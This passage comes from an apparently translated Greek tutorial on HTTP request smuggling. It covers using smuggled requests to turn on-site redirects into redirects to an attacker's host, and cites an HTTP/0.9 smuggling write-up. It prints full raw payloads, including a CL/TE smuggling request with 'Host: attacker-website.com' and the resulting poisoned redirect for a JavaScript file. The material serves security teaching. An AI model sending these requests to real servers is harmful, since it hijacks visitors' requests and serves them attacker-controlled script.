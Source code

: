 Σε [**αυτήν την ανάλυση**](https://mizu.re/post/twisty-python), αυτό καταχράστηκε με ένα request smuggling και ένα **ευάλωτο σημείο που θα απαντήσει με την είσοδο του χρήστη** για να κρύψει ένα αίτημα με HTTP/0.9. Η παράμετρος που θα αντανακλαστεί στην απάντηση περιείχε μια **ψεύτικη απάντηση HTTP/1.1 (με κεφαλίδες και σώμα)**, έτσι η απάντηση θα περιέχει έγκυρο εκτελέσιμο κώδικα JS με ένα `Content-Type` του `text/html`.

### Εκμεταλλευόμενοι Επανακατευθύνσεις Στον Ιστό με HTTP Request Smuggling <a href="#exploiting-on-site-redirects-with-http-request-smuggling" id="exploiting-on-site-redirects-with-http-request-smuggling"></a>

Οι εφαρμογές συχνά ανακατευθύνουν από ένα URL σε ένα άλλο χρησιμοποιώντας το όνομα κεφαλίδας `Host` στο URL ανακατεύθυνσης. Αυτό είναι συνηθισμένο με διακομιστές ιστού όπως το Apache και το IIS. Για παράδειγμα, η αίτηση ενός φακέλου χωρίς κάθετο γραμμή οδηγεί σε ανακατεύθυνση για να περιλαμβάνει την κάθετο γραμμή:
```
GET /home HTTP/1.1
Host: normal-website.com
```
Αποτελέσματα:
```
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```
Αν και φαίνεται ανώδυνο, αυτή η συμπεριφορά μπορεί να χειριστεί χρησιμοποιώντας HTTP request smuggling για να ανακατευθύνει τους χρήστες σε εξωτερικό ιστότοπο. Για παράδειγμα:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
Αυτό το κρυφό αίτημα μπορεί να οδηγήσει το επόμενο επεξεργασμένο αίτημα χρήστη να ανακατευθυνθεί σε μια ιστοσελίδα που ελέγχεται από τον επιτιθέμενο:
```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```
Αποτελέσματα:
```
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```
Σε αυτό το σενάριο, ένα αίτημα ενός χρήστη για ένα αρχείο JavaScript απάγεται. Ο επιτιθέμενος μπορεί δυνητικά να εκμεταλλευτεί τον χρήστη παρέχοντας κακόβουλο JavaScript ως απάντηση.
